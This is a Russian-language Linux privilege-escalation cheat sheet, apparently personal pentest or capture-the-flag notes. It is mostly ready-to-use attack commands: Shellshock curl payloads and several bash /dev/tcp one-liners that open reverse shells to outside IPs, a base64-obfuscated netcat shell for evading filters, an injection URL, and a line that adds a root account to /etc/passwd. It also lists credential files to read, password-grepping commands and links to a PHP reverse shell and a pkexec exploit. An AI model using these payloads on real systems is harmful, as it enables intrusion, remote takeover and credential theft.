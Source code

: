 # Скрипты повышения привелегий 

        https://github.com/rebootuser/LinEnum

        https://github.com/rebootuser/LinEnum.git

        https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

        wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

# enumeration

дистрибутив;

        cat /etc/issue
        cat /etc/*-release

версия ядра и разрядность;
       
        cat /proc/version
        uname -a

сетевые интерфейсы, порты, службы;
        
        netstat
        ss -tulpn

процессы
       
        ps aux
        pspy64 (Надо скачивать)

        https://github.com/DominicBreuker/pspy

        wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s       

Файлы, которые стоит проверить

        /home/user/.bash_history
        /home/user/password.txt
        /home/user/.history
        /home/user/.mysql_history
        /home/user/.ssh/id_rsa

# Разрешенные пермишены

        Sudo -l

        getcap -r / 2>/dev/null


        
curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh

curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"

/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'

echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

echo bmMgMTkyLjE2OC41MC4xMjMgNDQ0NCAtZSAvYmluL2Jhc2gK | base64 -d | bash   (обход фильтрации)



https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php   (Лучший PHP)

https://www.revshells.com/


# Повысить до tty интелектуальной оболочки командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа

        find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
        find / -type f -user emily 2>/dev/null
# Найти все файлы с пермишеном S

        find / -user root -perm -4000 -exec ls -ldb {} \;

        find / -user root -perm -u=s -type f 2>/dev/null

        find / -perm -u=s 2>/dev/null
# найти файл по имени

        find / -name "mysql*"

# ПОИСК ПАРОЛЕЙ

        cat * | grep -i passw*

        grep -r "passw".

        grep -rni 'enter_network' (поиск везде от текущей)

        for i in $(grep -oP "('.*?')" -R . --no-filename);do x=$(echo -n $i | ent| grep Entropy| awk '{print $3}' ); echo "$x $i"; done | sort -n

(поиск всего, заключенного в  '   ' особенно для паролей с применением ентропии)

        grep -E '[A-Z]{1,9}[-_][a-z]{1,9}' -R .




# pkexec EXPLOIT

Как понять, подвержены ли ваши дистрибутивы уязвимости pkexec:

whereis pkexec

which pkexec

ls -la /usr/bin/pkexec

find / -type f -name pkexec

poc - https://github.com/arthepsy/CVE-2021-4034

# Полезные комманды Линукс

        https://putty.org.ru/articles/unix-linux-ref

# открыть gui 
        open .

# Добавление пользователя с правами root в /etc/passwd

        echo "boot:$(openssl passwd -6 -salt boot password123):0:0:boot:/root:/bin/bash" >> /etc/passwd
